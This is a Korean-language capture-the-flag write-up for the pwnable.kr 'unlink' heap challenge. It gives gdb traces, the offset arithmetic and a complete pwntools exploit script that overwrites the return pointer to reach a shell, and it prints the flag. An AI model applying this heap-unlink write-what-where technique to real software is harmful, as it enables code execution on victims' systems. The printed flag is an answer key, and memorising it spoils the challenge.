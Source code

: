 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-04-16-41-19.png)


# **Write-Up**

우선 unlink를 qdb를 통해 디버깅해보자.

```sh
unlink@pwnable:~$ gdb -q unlink
(gdb) disas main
... 생략 ...
```

A의 주소를 알려주니, A의 주소의 값들은 어떻게 이루어져있는지 보자.

A->fd의 주소는 0x08efe428이고, B는 A->fd의 값인 0x08efe428임을 알 수 있다.

B->bk의 주소는 0x08efe42c이고, 값은 A의 주소인 0x08efe410이 맞다는 것을 알 수 있다.

마찬가지로 B->fd의 주소인 0x08efe428에는 C의 주소가 들어있다.

A의 buf 주소는 0x08efe418이고, gets를 사용했기 때문에 오버플로우가 일어날 수 있음을 고려하고 있자.

```sh
(gdb) b *main+186
Breakpoint 1 at 0x80485e9
(gdb) r
Starting program: /home/unlink/unlink
here is stack address leak: 0xffa74f04
here is heap address leak: 0x8efe410
now that you have leaks, get shell!
ABCD

Breakpoint 1, 0x080485e9 in main ()
(gdb) x/20x 0x8efe410
0x8efe410:      0x08efe428      0x00000000      0x44434241      0x00000000
0x8efe420:      0x00000000      0x00000019      0x08efe440      0x08efe410
0x8efe430:      0x00000000      0x00000000      0x00000000      0x00000019
0x8efe440:      0x00000000      0x08efe428      0x00000000      0x00000000
0x8efe450:      0x00000000      0x00000409      0x20776f6e      0x74616874
```

unlink 이후의 값을 살펴 보자.

A의 fd가 C를 향하고 있고, C의 bk가 A를 향하고 있다.

```sh
(gdb) b *main+200
Breakpoint 2 at 0x80485f7
(gdb) c
Continuing.

Breakpoint 2, 0x080485f7 in main ()
(gdb) x/20x 0x8efe410
0x8efe410:      0x08efe440      0x00000000      0x44434241      0x00000000
0x8efe420:      0x00000000      0x00000019      0x08efe440      0x08efe410
0x8efe430:      0x00000000      0x00000000      0x00000000      0x00000019
0x8efe440:      0x00000000      0x08efe410      0x00000000      0x00000000
0x8efe450:      0x00000000      0x00000409      0x20776f6e      0x74616874
```

shell의 주소를 구하자.

```sh
(gdb) disas shell
Dump of assembler code for function shell:
   0x080484eb <+0>:     push   %ebp
   0x080484ec <+1>:     mov    %esp,%ebp
   0x080484ee <+3>:     sub    $0x8,%esp
   0x080484f1 <+6>:     sub    $0xc,%esp
   0x080484f4 <+9>:     push   $0x8048690
   0x080484f9 <+14>:    call   0x80483c0 <system@plt>
   0x080484fe <+19>:    add    $0x10,%esp
   0x08048501 <+22>:    nop
   0x08048502 <+23>:    leave
   0x08048503 <+24>:    ret
End of assembler dump.
```

이후 ret에서 shell을 호출하면 될듯 하다.

```sh
(gdb) disas main
... 생략 ...
=> 0x080485f7 <+200>:   add    $0x10,%esp
   0x080485fa <+203>:   mov    $0x0,%eax
   0x080485ff <+208>:   mov    -0x4(%ebp),%ecx
   0x08048602 <+211>:   leave
   0x08048603 <+212>:   lea    -0x4(%ecx),%esp
   0x08048606 <+215>:   ret
... 생략 ...
```

stack에서 A부터 ebp의 크기를 구하자.

```sh
(gdb) p $ebp - 0xffa74f04
$1 = (void *) 0x14
```

따라서, A->buf에는 shell 주소(4byte) + dummy(12 byte) + (heap + 12의 주소)(4byte) + (ebp - 4의 주소)(4byte)이 들어가야 한다.

![](images/2022-01-04-16-43-15.png)

FLAG를 획득하자.

```python
from pwn import *

s = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
p = s.process("./unlink")

p.recvuntil('here is stack address leak: ')
stack_address   = int(p.recvline().strip(), 16)
ebp_address     = stack_address + 0x14

p.recvuntil('here is heap address leak: ')
heap_address    = int(p.recvline().strip(), 16)
buf_address     = heap_address + 8
shell_address   = 0x080484eb

payload = p32(shell_address)
payload += b'A'*12
payload += p32(buf_address + 4)
payload += p32(ebp_address - 4)

p.recvuntil('now that you have leaks, get shell!\n')
p.sendline(payload)
p.interactive()

[Output]
... 생략 ...
[+] Starting remote process bytearray(b'./unlink') on pwnable.kr: pid 44121
[*] Switching to interactive mode
$ $ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```


# **FLAG**

**conditional_write_what_where_from_unl1nk_explo1t**